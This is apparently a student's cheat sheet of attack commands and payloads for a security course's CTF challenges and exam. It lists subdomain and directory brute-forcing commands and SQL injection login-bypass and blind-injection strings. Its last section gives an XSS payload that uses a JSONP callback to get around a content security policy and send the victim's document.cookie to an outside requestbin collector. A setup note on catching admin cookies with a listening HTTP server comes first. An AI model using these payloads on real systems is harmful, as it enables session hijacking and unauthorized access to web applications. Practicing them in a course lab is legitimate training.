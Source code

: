 # 6843 CMDS + PAYLOADS  
Copy pasta some quick access commands + payloads for CTF challenges + exam.  

---
### Security Setup
---

**EC2 Web Server**
1. Log in to EC2 instance.
2. Launch HTTP server `python -m SimpleHTTPServer 80`
3. Hit it with requests / capture some admin cookies :)

**Alternatives to capture requests**
* https://requestbin.fullcontact.com/
* http://webhookinbox.com/

---
### Common 6843 words
---

```
noone
sketch
sketchy
```
---
### Recon: Subdomain Bruteforcing
---

**Aquatone**
```
ssh ec2-user@tehec2instanceidduh.aws.etc.etc        // get in
cd /home/ec2-user/sec_tools/RECON/aquatone          // go to aquatone
aquatone-discover --domain [ ns.agency ]            // run subdomain bruteforcing
cat ~/aquatone/example.com/hosts.txt                // show discovered subdomains
```
**GoBuster DNS Mode**
```
See below instructions @ dir bruteforcing.
go run main.go -m dns -u [ https://ns.agency ] -w /path/to/wordlist      // run subdomain bruteforcing
```
---
### Recon: Directory Bruteforcing
---

**GoBuster**
```
cd /Users/brianlam/go/src/gobuster                  // go to gobuster sources
go run main.go -u https://ns.agency -w ~/1_RECON/_WORDLISTS/Directories_Common.wordlist    // run dir bruteforcing
```

---
### SQLi
---

**Authentication Bypass**
```
admin' --
' or 1=1--
' or '1'='1
' or '1'='1 --
```

**Verification: Blind SQLi**
```
%' AND 1=1 AND '%'='                  // BOOLEAN: TRUE
%' AND 1=0 AND '%'='                  // BOOLEAN: FALSE
company=sap%' AND SLEEP(5) AND '%'='  // TIME-BASED
```

**Sqlmap Commands**
```

```



---
### Advanced Injection
---

---
### XSS Normal + Advanced
---
**Useful JS web API methods for XSS**  
Redirect a user/admin to your url to steal their cookies.
```
fetch()
window.onload()
document.location()
window.location.replace()
window.location.reload()
window.location.assign()
```

**CSP Bypass**  
Bypass via. JSONP API callback param:
```
Verify:
<script src="https://cspdomain1.dev.ns.agency/api/weather/?weather=2149645&callback=alert('xss');//"></script>

Payload:
<script src="https://cspdomain1.dev.ns.agency/api/weather/?weather=2149645&callback=window.location.replace('https://requestbin.fullcontact.com/1kmppe91?c%3D'%2Bdocument.cookie);//"></script>
```



